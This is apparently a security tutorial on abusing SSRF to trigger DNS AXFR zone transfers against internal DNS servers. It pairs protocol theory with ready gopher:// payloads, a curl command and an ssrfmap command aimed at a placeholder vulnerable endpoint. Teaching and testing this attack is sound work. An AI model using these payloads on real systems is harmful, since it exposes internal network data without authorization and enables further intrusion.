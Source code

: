 ```yaml
---
title: 'Exploiting DNS AXFR via SSRF: Internal Data Exposure'
description: Learn how to trigger DNS AXFR using SSRF vulnerabilities to expose internal
  DNS zones and execute commands.
keywords:
- DNS AXFR
- SSRF
- zone transfer
- internal DNS
- data exfiltration
- network security
- payload construction
---
```


# DNS AXFR Trigger

## Context

This article is designed to demonstrate how to exploit Server-Side Request Forgery (SSRF) to trigger a DNS AXFR (zone transfer), leveraging vulnerabilities in DNS servers for unauthorized data exfiltration or command execution within internal networks. Readers should have a foundational understanding of the DNS protocol, specifically the zone transfer mechanism (AXFR), and be familiar with SSRF basics and how it can lead to command execution.

## Theory

### DNS AXFR and Zone Transfer Mechanics

DNS AXFR is a protocol operation that facilitates the full transfer of DNS zone information between DNS servers. This mechanism is intended for replication purposes between trusted DNS servers and is not designed to be publicly accessible. However, its misconfiguration can allow unauthorized AXFR requests, leading to exposure of sensitive internal zone data such as hostnames, IPs, and potentially other sensitive infrastructure details.

### SSRF as a Vector for DNS AXFR

Server-Side Request Forgery (SSRF) allows an attacker to make requests on behalf of a server, potentially accessing internal services. Attackers can exploit SSRF vulnerabilities to send crafted AXFR requests to internal DNS servers, exploiting web applications that allow SSRF to communicate with internal infrastructure, thus bypassing typical network segmentation and access controls.

### Payload Construction for DNS AXFR via SSRF

To exploit DNS AXFR via SSRF, payloads must be correctly crafted to encode DNS AXFR requests using supported SSRF protocols such as gopher or HTTP. The gopher protocol is particularly useful for bypassing URL filtering to reach DNS services, due to its ability to encode complex requests and communicate with services otherwise inaccessible by standard HTTP requests.

### Risks and Impact of DNS AXFR Trigger

A successful exploitation revealing the DNS AXFR exposes internal hostnames, IP addresses, and sensitive infrastructure information, leading to potential reconnaissance and further attacks within the compromised network. This data may be exfiltrated via SSRF responses or through secondary channels like timing attacks or error messages, significantly compromising network integrity.

## Practice

### Triggering DNS AXFR via SSRF with Gopher Payload

- **Identify SSRF Injection Point**: Start by identifying a vulnerable SSRF endpoint within the application that accepts arbitrary protocols and URL schemes.

- **Craft Gopher Payload**: Construct a gopher payload for a raw AXFR request to the DNS server. Use the syntax:
    ```http
    gopher://<internal-dns-ip>:53/_%00%00%10%00%01%00%00%00%00%00%00%07example%03com%00%00%fc%00%01
    ```
  Replace `<internal-dns-ip>` and `example.com` with the appropriate internal DNS server IP and domain name.

- **Send the Payload via SSRF**:
    ```bash
    curl -X POST 'https://target-app/vuln-ssrf?url=gopher://10.0.0.2:53/_%00%00%10%00%01%00%00%00%00%00%00%07example%03com%00%00%fc%00%01'
    ```
  Submit this crafted request through the SSRF endpoint to trigger the AXFR request.

- **Analyze Application Response**: Examine the application's response for evidence of DNS zone data or error messages. Look specifically for any internal host information or service banner disclosures.

### Automated DNS AXFR Trigger via SSRF Exploitation Tool

- **Leverage SSRF Exploitation Tools**: Utilize tools like SSRFmap or Gopherus which allow for the crafting of custom protocol payloads efficiently.

- **Execute Automated Trigger**:
    ```bash
    python3 ssrfmap.py -u 'https://target-app/vuln-ssrf?url=FUZZ' --data 'gopher://10.0.0.2:53/_%00%00%10%00%01%00%00%00%00%00%00%07example%03com%00%00%fc%00%01' --run
    ```
  Run the appropriate command using the tool, adjusting parameters to fit your specific target and objective.

- **Review Results**: Extract and review the tool’s output for DNS zone transfer results, which may include internal DNS records and their associated data.

## Tools

- **curl**
- **ssrfmap**
- **Gopherus**